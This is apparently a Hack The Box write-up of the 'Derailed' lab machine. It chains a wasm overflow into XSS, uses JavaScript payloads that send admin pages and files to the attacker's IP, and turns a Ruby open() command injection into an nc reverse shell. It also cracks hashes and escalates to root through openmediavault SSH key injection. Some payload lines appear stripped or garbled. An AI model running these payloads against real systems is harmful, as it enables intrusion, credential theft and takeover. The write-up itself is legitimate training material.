

# Derailed

## Information

<table data-header-hidden><thead><tr><th width="330">Name</th><th align="right"></th></tr></thead><tbody><tr><td>Name</td><td align="right"></td></tr><tr><td>Release Date </td><td align="right">19 Nov 2022</td></tr><tr><td>OS</td><td align="right">Linux</td></tr><tr><td>Difficulty</td><td align="right">Insane</td></tr><tr><td>Vulnerabilities</td><td align="right"><p>Arbitrary File Read, Remote Code Execution, </p><p>OS Command Injection, Buffer Overflow, </p><p>Cross Site Scripting (XSS)</p></td></tr><tr><td>Languages</td><td align="right">Ruby, Web Assembly, PHP</td></tr></tbody></table>




## Enumeration

### Nmap

```apacheconf
msplmee@kali:~$ nmap -p- --min-rate 10000 10.10.11.190 -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-13 06:07 EDT
Nmap scan report for 10.10.11.190
Host is up (0.13s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
3000/tcp open  ppp

Nmap done: 1 IP address (1 host up) scanned in 40.40 seconds
msplmee@kali:~$ nmap -p 22,3000 -sC -sV 10.10.11.190 -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-13 06:09 EDT
Nmap scan report for 10.10.11.190
Host is up (0.090s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 1623b09ade0e3492cb2b18170ff27b1a (RSA)
|   256 50445e886b3e4b5bf9341dede52d91df (ECDSA)
|_  256 0abd9223df44026f278da6abb4077837 (ED25519)
3000/tcp open  http    nginx 1.18.0
|_http-title: derailed.htb
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 19.47 seconds
```

The scan reveals ports 22 (SSH) and 3000 (HTTP) open.&#x20;

### Website - TCP 3000

<figure><figcaption></figcaption></figure>

I used `feroxbuster` on the website and discovered an interesting page at `/administrator`. I require an admin account to enter this page.

```apacheconf
msplmee@kali:~$ feroxbuster -u http://10.10.11.190:3000

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.9.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.11.190:3000
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.9.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        1l        2w        9c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      128l      341w     4774c http://10.10.11.190:3000/
302      GET        1l        5w       91c http://10.10.11.190:3000/logout => http://10.10.11.190:3000/
200      GET      144l      381w     5592c http://10.10.11.190:3000/login
200      GET      153l      397w     5908c http://10.10.11.190:3000/register
404      GET       67l      181w     1722c http://10.10.11.190:3000/users
200      GET       67l      181w     1722c http://10.10.11.190:3000/404
302      GET        1l        5w       96c http://10.10.11.190:3000/administration => http://10.10.11.190:3000/login
200      GET       66l      165w     1635c http://10.10.11.190:3000/500
200      GET       67l      176w     1705c http://10.10.11.190:3000/422
404      GET        1l        3w       14c http://10.10.11.190:3000/cable
[####################] - 2m     30000/30000   0s      found:10      errors:0      
[####################] - 2m     30000/30000   247/s   http://10.10.11.190:3000/
```

The HTTP response headers display the creation of a `_simple_rails_session` cookie.

```http
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Wed, 13 Sep 2023 03:19:55 GMT
Content-Type: text/html; charset=utf-8
Connection: close
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Download-Options: noopen
X-Permitted-Cross-Domain-Policies: none
Referrer-Policy: strict-origin-when-cross-origin
Link: </packs/js/application-135b5cfa2df817d08f14.js>; rel=preload; as=script; nopush
ETag: W/"38ba62fb0518cd5074056c6f5abd189f"
Cache-Control: no-cache
Set-Cookie: _simple_rails_session=3bOCgUqzE%2Bt8HJgw2bnAwGV4HjyFMv9JEPc1BU0Q1JV%2Fm38KVQhHKE210yk3%2FyuRa3T%2FUYt4jzw0wieIp4Kcbw%2BKr7d4uiX2fhhVqgfvDC7gIvLQqIBfjRLbME6kxcJQ1c7nyGQ2UZy1ccBvB1yJRmmmreSbNO6%2BYeq3iArTuBEFKhn4y1nQ4MUsjowycAUbey%2FGPQoCdwfcMm2yzQq%2BYhc2PlMIzW9gQN%2B1eaL7y0FUZ2zPVkgZ2ksaKu5jYWBsweEvFnIcc8jjgyVlqAPmwjnZpNuxUBalZ6L5pTo%3D--nHTLnUNc5rnwGmvj--dsyTqgHp7BTz5%2FYNqS12jQ%3D%3D; path=/; HttpOnly; SameSite=Lax
X-Request-Id: 593c2acd-4b15-4223-949a-0d991c5ea655
X-Runtime: 0.013680
Expires: Wed, 13 Sep 2023 03:19:54 GMT
Content-Length: 4774
```

I also use the `/rails/info/routes` path to display all the application's routes. `Feroxbuster` didn't find it when using the default wordlist because `/rails` results in a 404 error.

<figure><figcaption></figcaption></figure>

## XSS against Admin

I think I need to perform a cross-site scripting (XSS) attack using the "report" form here. I try different XSS payloads, but it doesn't work.

<figure><figcaption></figcaption></figure>

The next thing I can change is my name, but it seems secure. This might lead to a potential Cross-Site Scripting attack. To test my idea, I create a new account with the username `<b>msplmee</b>` and post a new clipnote. Sadly, the code doesn't run.

<figure><figcaption></figcaption></figure>

After checking the JavaScript code, I find that it retrieves notes from the `/raw/:id` endpoint and sends them to the `display()` function using `ccall()`.

```typescript
fetch('/clipnotes/raw/112')
    .then(response => response.json())
    .then(clipNote => {
        loadClipNote(clipNote)
    });

function loadClipNote(clipNote) {

    window.clipNote = clipNote

    "use strict";
    let el = document.getElementById('editor');
    el.style.minHeight = '400px';

    let editor = null;

    require(['vs/editor/editor.main'], function () {

        editor = monaco.editor.create(el, {
            theme: 'vs-light',
            model: monaco.editor.createModel(clipNote.content, "markdown"),
            readOnly: true,
            fontSize: "18px",
            roundedSelection: false,
            scrollBeyondLastLine: false,
        });

        editor.layout();
    });

    // load some stats
    let author = clipNote.author
    let created = clipNote.created_at

    Module.ccall(
        "display",
        "number",
        ["string", "string"],
        [
            created,
            author
        ]
    );
}
```

The `display()` function is in `display.wasm`. I put a breakpoint in the function to check what's in `$var0` and `$var1` arguments.

<figure><figcaption></figcaption></figure>

I use the `UTF8ToString()` function in the browser console to change these values into JavaScript strings. This reveals that the first argument holds the creation date, and the second argument holds the clipnote author.

<figure><figcaption></figcaption></figure>

The icon in the top right corner of the clipnote page lets you report notes that are not suitable for possible removal from the platform.

<figure><figcaption></figcaption></figure>

Once a report is sent, a message notifies us that an administrator will review it.

<figure><figcaption></figcaption></figure>

When I look closer, we see that the user registration form limits the username length to 40 characters.


```html
<div class="form-floating mb-3">
    <input maxlength="40" placeholder="Username" class="form-control" size="40" type="text" name="user[username]" id="user_username">
    <label for="user_username">Username</label>
</div>
```


To check this, I utilize the Metasploit tool `pattern_create` to create a 100-byte pattern.


```apacheconf
msplmee@kali:~$ msf-pattern_create -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```


I create a new clipnote after registering an account with a generated username.

```http
POST /register HTTP/1.1
Host: 10.10.11.190:3000
Content-Length: 292
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.190:3000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.190:3000/register
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: _simple_rails_session=yN7wkslQl0F4LYKMcXjYCYbMtn8D9b30dVSZRG%2BCLGW4%2BobehZ2p7omErioxaiL5PJYLtb%2BH5kzS4jfFKy11uXIZK54Y%2F9Oz6owJ4C%2BNaxGnFyBCBiTfXyCcUuVSVkToUr%2B0muUrmu9Uik5UaYe4JG2mfqAkTXVK1W8wW0qPVkSm4am6oWvdF4S0cX04NYkgs5Od2W6RKc%2FQ5fVSoMnQZIoEPZyFF9r9Jgv0JQZv%2BfFTYafUqxewFEDA0NThrQnSawFhQscZcCISAoUXUvTYLmLKtfEEoLG5zRta24E%3D--1ahezN6HOQRsn86j--qFqpfkSHYOP92wb12IxqgQ%3D%3D
Connection: close

authenticity_token=A3P3TWtkxTrHRgFwvFr1tciA7jR_J9n5Q-ZJmmofiuT2xY50j_wvZxWa-t1Q7sZtkgn9ILtua61LeFgmbJ4ycw&user%5Busername%5D=Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A&user%5Bpassword%5D=msplmee&user%5Bpassword_confirmation%5D=msplmee
```

The full username is there, and the created string is part of the username.

<figure><figcaption></figcaption></figure>

In fact, it’s 48 bytes into the username:

```apacheconf
msplmee@kali:~$ msf-pattern_offset -q Ab6A
[*] Exact match at offset 48
```

I will create a username with 48 random characters, and then add a basic image tag with an XSS POC payload to trigger an alert. It's work:

```apacheconf
msplmee@kali:~$ python3 -c "print('A'*48+ \"\")" 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

The complete name is displayed correctly, but the "created" time failed to load the image, and there's a pop-up alert in the foreground with the message "1"!

<figure><figcaption></figcaption></figure>

I begin by fetching data from my server using the username.

```apacheconf
msplmee@kali:~$ cat xss.js    
echo "alert(1);" 
```


```
msplmee@kali:~$ python3 -c "print('A'*48+ \"\")"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```


When I log in, submit a note, and view it, there is a request on my server.

```apacheconf
msplmee@kali:~$ python3 -m http.server 80                                      
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.14.6 - - [13/Sep/2023 07:38:15] "GET /xss.js HTTP/1.1" 200 -
```

Unfortunately, the console doesn't show the contents, but there's an error message:

<figure><figcaption></figcaption></figure>

I use `http-server` with the `--cors` option to avoid CORS policy issues.

```apacheconf
msplmee@kali:~/HTB/Machine/Derailed$ http-server -p 80 --cors
Starting up http-server, serving ./
...
Available on:
  http://10.10.14.6:80
Hit CTRL-C to stop the server

[2023-09-13T12:51:53.120Z]  "GET /xss.js" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36"
```

## Shell as rails <a href="#shell-as-rails" id="shell-as-rails"></a>

I want to see what the `/administration` looks like. I create a JavaScript payload to fetch it and send it to me:

```javascript
fetch("http://derailed.htb:3000/administration")
.then((resp) => resp.text())
.then((html) => {
    fetch("http://10.10.14.6:9001/exfil", {
    method: "POST",
    body: html,
    });
});
```

I save and resubmit the note for review. Then, I begin capturing POST requests on port 9001 with the page in the body. After one minute, there is a successful request.

```apacheconf
msplmee@kali:~$ nc -lnvp 9001 > administration.html
listening on [any] 9001 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.190] 59824
```

I open the web page in my browser, and even without the CSS loading, I can still get a basic sense of the page.

<figure><figcaption></figcaption></figure>

The "Download" link is part of an HTML form, which is the interesting part.

```html
<form method="post" action="/administration/reports">
    <input
      type="hidden"
      name="authenticity_token"
      id="authenticity_token"
      value="GNWWxMDBw-Z50nWmTx6aqizDPKuLkeA987wFxx3DZWscmT4E5x30igEylZftYk580mfckm3xnnHtN1F79dN1bQ"
      autocomplete="off"
    />

    <input
      type="text"
      class="form-control"
      name="report_log"
      value="report_13_09_2023.log"
      hidden
    />

    <label class="pt-4"> 13.09.2023</label>

    <button name="button" type="submit">
      <i class="fas fa-download me-2"></i>
      Download
    </button>
  </form>
```

I create a payload to fetch the log file via XSS, as intended. This program will access the `/administration` page, retrieve the token, and then make a POST request to `/administration/reports` to fetch the log file. The response will be sent to me via a POST.

```javascript
fetch("http://derailed.htb:3000/administration")
.then((resp) => resp.text())
.then((html) => {
    let page = new DOMParser().parseFromString(html, "text/html");
    let token = page.getElementById("authenticity_token").value;
    console.log(token);
    fetch("http://derailed.htb:3000/administration/reports", {
    method: "POST",
    headers: {
        "Content-Type": "application/x-www-form-urlencoded",
    },
    body: "authenticity_token=" + token + "&report_log=report_13_09_2023.log",
    })
    .then((resp) => resp.text())
    .then((html) => {
        console.log(html);
        fetch("http://10.10.14.6:9001/", {
        method: "POST",
        body: html,
        });
    });
});

```

After saving this, I resubmit the report, and the file reaches my `nc` server on port 9001, along with a log file displaying the note's ID and the associated complaint.

```apacheconf
msplmee@kali:~$ nc -lnvp 9001  
listening on [any] 9001 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.190] 45642
POST / HTTP/1.1
Host: 10.10.14.6:9001
Connection: keep-alive
Content-Length: 41
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/96.0.4664.45 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://derailed.htb:3000
Referer: http://derailed.htb:3000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US

112,test
117,a
117,a
117,
117,
117,
117,
```

It's possible that it's attempting to open a file called `report_19_07_2023.log`. I change my payload to read another file, like `/etc/passwd`. I just update the report\_log parameter in the request, and when I submit the report again, passwd is sent to `nc`.

```apacheconf
msplmee@kali:~$ nc -lnvp 9001 
listening on [any] 9001 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.190] 56576
POST / HTTP/1.1
Host: 10.10.14.6:9001
Connection: keep-alive
Content-Length: 2084
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/96.0.4664.45 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://derailed.htb:3000
Referer: http://derailed.htb:3000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US

root:x:0:0:root:/root:/bin/bash
...
openmediavault-webgui:x:999:996:Toby Wright,,,:/home/openmediavault-webgui:/bin/bash
admin:x:998:100:WebGUI administrator:/home/admin:/usr/sbin/nologin
openmediavault-notify:x:997:995::/home/openmediavault-notify:/usr/sbin/nologin
systemd-timesync:x:994:994:systemd Time Synchronization:/:/usr/sbin/nologin
systemd-coredump:x:993:993:systemd Core Dumper:/:/usr/sbin/nologin
rails:x:1000:100::/home/rails:/bin/bash
_laurel:x:996:992::/var/log/laurel:/bin/false
marcus:x:1001:1002:,,,:/home/marcus:/bin/bash
```

I get a list of controllers and their functions for each path on the server from the `/rails/info/routes` path.

I think I'll find the admin controller at `app/controllers/admin_controller.rb`. I'll change the POST body to `report_log=/proc/self/cwd/app/controllers/admin_controller.rb`.

```ruby
class AdminController < ApplicationController
  def index
    if !is_admin?
      flash[:error] = "You must be an admin to access this section"
      redirect_to :login
    end

    @report_file = helpers.get_report_file()

    @files = Dir.glob("report*log")
    p @files
  end

  def create
    if !is_admin?
      flash[:error] = "You must be an admin to access this section"
      redirect_to :login
    end

    report_log = params[:report_log]

    begin
      file = open(report_log)
      @content = ""
      while line = file.gets
        @content += line
      end
      send_data @content, :filename => File.basename(report_log)
    rescue
      redirect_to request.referrer, flash: { error: "The report was not found." }
    end

  end
end
```

The code above indicates that the `report_log` parameter's contents are sent directly to `open`. Since I have control over it, if I start the file path with a `|`, it will execute what comes after it.

I change the POST body to `report_log=| nc 10.10.14.6 443 -e /bin/bash;`. I trigger the XSS again, and when it works, a shell connects to port 443.

```
msplmee@kali:~$ pwncat-cs -l -p 443
[09:51:51] Welcome to pwncat 🐈!                         
[09:52:26] received connection from 10.10.11.190:60406  
(local) pwncat$                                          
(remote) rails@derailed:/var/www/rails-app$ cd
(remote) rails@derailed:/home/rails$ cat user.txt 
584*****************************
```

I see `rails` in the ssh group.

```apacheconf
(remote) rails@derailed:/home/rails$ id
uid=1000(rails) gid=1000(rails) groups=1000(rails),100(users),113(ssh)
(remote) rails@derailed:/home/rails$ cat /etc/ssh/sshd_config
Protocol 2
HostKey /etc/ssh/ssh_host_rsa_key
HostKey /etc/ssh/ssh_host_dsa_key
HostKey /etc/ssh/ssh_host_ecdsa_key
HostKey /etc/ssh/ssh_host_ed25519_key
SyslogFacility AUTH
LogLevel INFO
LoginGraceTime 120
StrictModes yes
IgnoreRhosts yes
HostbasedAuthentication no
PermitEmptyPasswords no
ChallengeResponseAuthentication no
X11Forwarding yes
X11DisplayOffset 10
PrintMotd no
PrintLastLog yes
TCPKeepAlive yes
AcceptEnv LANG LC_*
Subsystem sftp /usr/lib/openssh/sftp-server
UsePAM yes
AllowGroups root ssh
AddressFamily any
Port 22
PermitRootLogin yes
AllowTcpForwarding no
Compression no
PasswordAuthentication yes
AuthorizedKeysFile .ssh/authorized_keys .ssh/authorized_keys2 /var/lib/openmediavault/ssh/authorized_keys/%u
PubkeyAuthentication yes

```

I see it also has `AllowTcpForwarding no` so I can't use SSH tunneling. I add my public key to the `authorized_keys` file and set the permissions correctly.


```apacheconf
(remote) rails@derailed:/home/rails/.ssh$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCyg...3DLtYM= kali@kali" > authorized_keys
(remote) rails@derailed:/home/rails/.ssh$ chmod 600 authorized_keys 
```


Now I can connect via `ssh`

```apacheconf
msplmee@kali:~/.ssh$ ssh -i id_rsa rails@10.10.11.190              
The authenticity of host '10.10.11.190 (10.10.11.190)' can't be established.
...
rails@derailed:~$ 
```

## Shell as openmediavault-webgui <a href="#shell-as-openmediavault-webgui" id="shell-as-openmediavault-webgui"></a>

Nginx is hosting two sites

```apacheconf
rails@derailed:/etc/nginx/sites-enabled$ ls
openmediavault-webgui  rails-app.conf
```

The `rails-app.conf` file displays a listener on port 3000 that forwards traffic to Rails on port 3003.

```apacheconf
rails@derailed:/etc/nginx/sites-enabled$ cat rails-app.conf 
server {
        listen 3000;
        server_name derailed.htb; 

        location / {
                proxy_pass http://derailed.htb:3003;
                gzip off;
                expires -1;
        }
}

```

The `openmediavault-webgui` is listening on localhost only, port 80:

```apacheconf
rails@derailed:/etc/nginx/sites-enabled$ cat openmediavault-webgui 
# This file is auto-generated by openmediavault (https://www.openmediavault.org)
# WARNING: Do not edit this file, your changes will get lost.

server {
    server_name openmediavault-webgui;
    root /var/www/openmediavault;
    index index.html;
    autoindex off;
    server_tokens off;
    sendfile on;
    large_client_header_buffers 4 32k;
    client_max_body_size 25M;
    error_log /var/log/nginx/openmediavault-webgui_error.log error;
    access_log /var/log/nginx/openmediavault-webgui_access.log combined;
    error_page 404 = $scheme://$host:$server_port/#/404;
    location / {
        try_files $uri $uri/ =404;
    }
    location ~* \.json$ {
        expires -1;
    }
    location ~* \.php$ {
        fastcgi_split_path_info ^(.+\.php)(/.+)$;
        fastcgi_pass unix:/run/php/php7.4-fpm-openmediavault-webgui.sock;
        fastcgi_index index.php;
        fastcgi_read_timeout 60s;
        include fastcgi.conf;
        fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
    }
    #listen *:80 default_server;
    listen 127.0.0.1:80 default_server;
    include /etc/nginx/openmediavault-webgui.d/*.conf;
}
```

There are three folders in `/var/www`: `html` contains the default Debian nginx page, `rails-app` holds the clipnotes application, and `openmediavault` appears to be a similar instance.

```
rails@derailed:/var/www$ ls
html  openmediavault  rails-app
```

In the `rails-app/db` folder, there is an SQLite database with a few tables.

```apacheconf
rails@derailed:/var/www/rails-app/db$ ls
development.sqlite3  migrate  schema.rb
rails@derailed:/var/www/rails-app/db$ sqlite3 development.sqlite3 
SQLite version 3.34.1 2021-01-20 14:10:07
Enter ".help" for usage hints.
sqlite> .tables
ar_internal_metadata  reports               users               
notes                 schema_migrations
```

Apart from my submission, there are two more users: tody and alice.

```sql
sqlite> select * from users;
1|alice|$2a$12$hkqXQw6n0CxwBxEW/0obHOb.0/Grwie/4z95W3BhoFqpQRKIAxI7.|administrator|2022-05-30 18:02:45.319074|2022-05-30 18:02:45.319074
2|toby|$2a$12$AD54WZ4XBxPbNW/5gWUIKu0Hpv9UKN5RML3sDLuIqNqqimqnZYyle|user|2022-05-30 18:02:45.542476|2022-05-30 18:02:45.542476
105|msplmee|$2a$12$caMXDyG2cRPNW.NjRDuToOjpaupaLGTHk/.y5Do.x1Lw40x/sm7Wa|user|2023-09-13 03:44:45.207529|2023-09-13 03:44:45.207529
106|msplmee<b>msplmee</b>|$2a$12$tik6SVsW79fqIGDTRfHfxOWJVAsYH0SehwX7mbdu6PaN6US295hJy|user|2023-09-13 03:47:57.278802|2023-09-13 03:47:57.278802
107|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A|$2a$12$9A7dGoEN8c9F/KD.WI5xX.KyJn7vSHtA8TdYHLM2qjkzCmLWp4Z1C|user|2023-09-13 04:24:10.394917|2023-09-13 04:24:10.394917
108|Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A|$2a$12$Ncp8I2Dw1iu8ye9U5Ezk0uiQmyrJaBbGvumjBPuqZpQwnQDiStTXq|user|2023-09-13 04:24:19.237797|2023-09-13 04:24:19.237797
109|msplmee@kali:~$ python3 -c "print('A'*48+ \"\")"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA|$2a$12$LzWoOovwTXxfop7AQ6gkeeehZAIR7kEULYDA4MY8vbDz5Q0WPUScS|user|2023-09-13 04:34:03.928995|2023-09-13 04:34:03.928995
110|AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA|$2a$12$fd91s1GS/9Ds7GGVb0uCYuDzjSrSQ5q5TXqR8nGCniM7S1yFuu/4a|user|2023-09-13 04:34:36.432977|2023-09-13 04:34:36.432977
111|AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA|$2a$12$PCxL1lRlc4MmtAZo4xUtYu.aWhNnQeC9SPSu9LEyYiYuknvvG4EYq|user|2023-09-13 04:40:41.581708|2023-09-13 04:40:41.581708
112|AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA r.text()).then(t => {eval(t)});" />|$2a$12$mDRkV0rUXHEvk9bus0cLHe95Nq4nmQRqzAEhH90Stk5RDt7JTuRqu|user|2023-09-13 04:53:59.999806|2023-09-13 04:53:59.999806
```

Toby's hash is quickly cracked as `greenday`.

```
msplmee@kali:~$ hashcat hash /usr/share/wordlists/rockyou.txt --user -m 3200
hashcat (v6.2.6) starting
...
$2a$12$AD54WZ4XBxPbNW/5gWUIKu0Hpv9UKN5RML3sDLuIqNqqimqnZYyle:greenday
```

When I checked for password reuse, I found that the same password could be used to access the openmediavault-webgui user.

```apacheconf
rails@derailed:/home$ su openmediavault-webgui
Password: 
openmediavault-webgui@derailed:/home$ id
uid=999(openmediavault-webgui) gid=996(openmediavault-webgui) groups=996(openmediavault-webgui),998(openmediavault-engined),999(openmediavault-config)
```

## Shell as root <a href="#shell-as-root" id="shell-as-root"></a>

I'd like to check openmediavault. I've noticed it's on port 80 on localhost, and I can't use SSH tunnel. I'll upload Chisel.

I start the server on my VM.

```
msplmee@kali:~$ ./chisel_1.9.1_linux_amd64 server -p 8000 --reverse
2023/09/13 10:39:39 server: Reverse tunnelling enabled
2023/09/13 10:39:39 server: Fingerprint cQmKk8xWLqhZn+sTzVnfzbjAS3ZZTFMbYZMKw587xyA=
2023/09/13 10:39:39 server: Listening on http://0.0.0.0:8000
2023/09/13 10:40:03 server: session#1: tun: proxy#R:8888=>localhost:80: Listening
```

And connect back to it:

```
openmediavault-webgui@derailed:/tmp$ ./chisel_1.9.1_linux_amd64 client 10.10.14.6:8000 R:8888:localhost:80
2023/09/13 04:16:19 client: Connecting to ws://10.10.14.6:8000
2023/09/13 04:16:20 client: Connected (Latency 90.018339ms)
```

I have a tunnel from port 8888 on my computer to port 80 on Derailed. The webpage shows a login form:

<figure><figcaption></figcaption></figure>

The passwords I tried didn't work. However, the FAQ has a guide on how to reset the password. I used `/sbin/omv-firstaid` and followed the steps, and now I can log in.

<figure><figcaption></figcaption></figure>

This interface has many ways to privesc.

<figure><figcaption></figcaption></figure>

Openmediavault also has an RPC component. You can find the `omv-rpc` tool in the documentation, in the same section as `omv-confdbadm`.

OpenMediaVault stores SSH keys for system users to enable NAS access. You can find a user's section in config.xml. There is a user’s section in config.xml:

```xml
<users>
<!--
<user>
        <uuid>xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx</uuid>
        <name>xxx</name>
        <email>xxx</email>
        <disallowusermod>0</disallowusermod>
        <sshpubkeys>
                <sshpubkey>|xxx</sshpubkey>
        </sshpubkeys>
</user>
-->
<user>
    <uuid>30386ffe-014c-4970-b68b-b4a2fb0a6ec9</uuid>
    <name>rails</name>
    <email></email>
    <disallowusermod>0</disallowusermod>
    <sshpubkeys></sshpubkeys>
</user>
<user>
    <uuid>e3f59fea-4be7-4695-b0d5-560f25072d4a</uuid>
    <name>test</name>
    <email></email>
    <disallowusermod>0</disallowusermod>
    <sshpubkeys></sshpubkeys>
</user>
</users>
```

I use the ssh-keygen command to convert a regular public key into the RFC 4716 format.

```apacheconf
msplmee@kali:~$ ssh-keygen -e -f ~/.ssh/id_rsa.pub 
---- BEGIN SSH2 PUBLIC KEY ----
Comment: "3072-bit RSA, converted by kali@kali from OpenSSH"
AAAAB3NzaC1yc2EAAAADAQABAAABgQCygxvpS/zrFojfSrn+lF39LdHrxBf7IobL7xGP3x
...
---- END SSH2 PUBLIC KEY ----
```

I modify the test user, change the name to "root," and insert a key.

```xml
<users>
<!--
<user>
        <uuid>xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx</uuid>
        <name>xxx</name>
        <email>xxx</email>
        <disallowusermod>0</disallowusermod>
        <sshpubkeys>
                <sshpubkey>|xxx</sshpubkey>
        </sshpubkeys>
</user>
-->
<user>
    <uuid>30386ffe-014c-4970-b68b-b4a2fb0a6ec9</uuid>
    <name>rails</name>
    <email></email>
    <disallowusermod>0</disallowusermod>
    <sshpubkeys></sshpubkeys>
</user>
<user>
    <uuid>e3f59fea-4be7-4695-b0d5-560f25072d4a</uuid>
    <name>root</name>
    <email></email>
    <disallowusermod>0</disallowusermod>
    <sshpubkeys>
        <sshpubkey>
        ---- BEGIN SSH2 PUBLIC KEY ----
Comment: "3072-bit RSA, converted by kali@kali from OpenSSH"
AAAAB3NzaC1yc2EAAAADAQABAAABgQCygxvpS/zrFojfSrn+lF39LdHrxBf7IobL7xGP3x
...
---- END SSH2 PUBLIC KEY ----
        </sshpubkey>
    </sshpubkeys>
</user>
</users>
```

I check if it went in correctly by using `omv-confdbadm` and reading it back.

```apacheconf
openmediavault-webgui@derailed:~$ /sbin/omv-confdbadm read --prettify conf.system.usermngmnt.user
[
    {
        "disallowusermod": false,
        "email": "",
        "name": "rails",
        "sshpubkeys": {
            "sshpubkey": []
        },
        "uuid": "30386ffe-014c-4970-b68b-b4a2fb0a6ec9"
    },
    {
        "disallowusermod": false,
        "email": "",
        "name": "root",
        "sshpubkeys": {
            "sshpubkey": [
                "---- BEGIN SSH2 PUBLIC KEY ----\nComment: \"3072-bit RSA, converted by kali@kali from OpenSSH\"\nAAAAB3NzaC1yc2EAAAADAQABAAABgQCygxvpS...---- END SSH2 PUBLIC KEY ----\n"
            ]
        },
        "uuid": "e3f59fea-4be7-4695-b0d5-560f25072d4a"
    }
]
```

To make it work, I require the SSH module to refresh. I use the config RPC to reload the SSH module.


```apacheconf
openmediavault-webgui@derailed:~$ /usr/sbin/omv-rpc -u admin "config" "applyChanges" "{ \"modules\": [\"ssh\"], \"force\": true }"
null
```


After it's done, I can use my key to log in as root

```
msplmee@kali:~/.ssh$ ssh -i id_rsa root@10.10.11.190
Linux derailed 5.19.0-0.deb11.2-amd64 #1 SMP PREEMPT_DYNAMIC Debian 5.19.11-1~bpo11+1 (2022-10-03) x86_64
...
permitted by applicable law.
root@derailed:~# id
uid=0(root) gid=0(root) groups=0(root)
root@derailed:~# cat root.txt 
511*****************************
